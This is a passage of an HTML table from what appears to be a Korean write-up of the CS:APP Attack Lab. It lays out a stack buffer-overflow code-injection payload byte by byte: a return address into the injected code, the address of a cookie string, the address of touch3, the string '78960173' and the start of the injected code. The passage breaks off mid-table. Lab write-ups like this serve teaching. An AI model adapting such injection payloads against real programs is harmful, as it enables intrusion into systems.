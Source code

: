             </td>
        </tr>
            <tr>
            <td style="text-align: right">
                rsp => <+0>
            </td>
            <td style="text-align: left">
                78 d6 60 55 00 00 00 00
            </td>
            <td>
                스택에 인젝션한 코드의 주소 rsp + 40
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <+8>
            </td>
            <td style="text-align: left">
                68 d6 60 55 00 00 00 00
            </td>
            <td>
                문자열의 주소 rsp + 24
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <+16>
            </td>
            <td style="text-align: left">
                b6 19 40 00 00 00 00 00
            </td>
            <td>
                <code>touch3</code>의 주소 <code>0x4019b6</code>
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <+24>
            </td>
            <td style="text-align: left">
                37 38 39 36 30 31 37 33
            </td>
            <td>
                문자열 <code>"78960173"</code>
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <+32>
            </td>
            <td style="text-align: left">
                00 00 00 00 00 00 00 00
            </td>
            <td>
                문자열 null byte
            </td>
        </tr>
            <tr>
            <td style="text-align: right">
                <+40>
            </td>
            <td style="text-align: left">
                5f
            </td>
